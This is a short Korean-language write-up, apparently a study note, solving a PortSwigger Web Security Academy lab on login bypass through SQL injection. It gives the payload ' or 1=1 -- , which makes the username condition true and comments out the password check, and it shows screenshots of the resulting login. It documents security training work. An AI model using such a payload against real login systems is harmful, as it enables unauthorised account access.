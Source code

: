 # [PortSwigger]SQL Injection 02

https://portswigger.net/web-security/all-labs

## LAB
로그인 우회를 허용하는 SQL Injection 취약점

## Qusetion
이 랩에는 로그인 기능에 SQL 인젝션 취약점이 포함되어 있습니다.

## Solution

로그인에 SQL Injection 취약점 확인

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2002%20-%201.png)

<br>

ID 부분을 참이 되게 하고 뒷 부분은 주석 처리해 비밀번호는 검증하지 않게함 
```
' or 1=1 --
```

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2002%20-%202.png)

<br>

성공적으로 로그인이 된 모습

![](../img/Study%20Img/%5BPortSwigger%5DSQL%20Injection%2002%20-%203.png)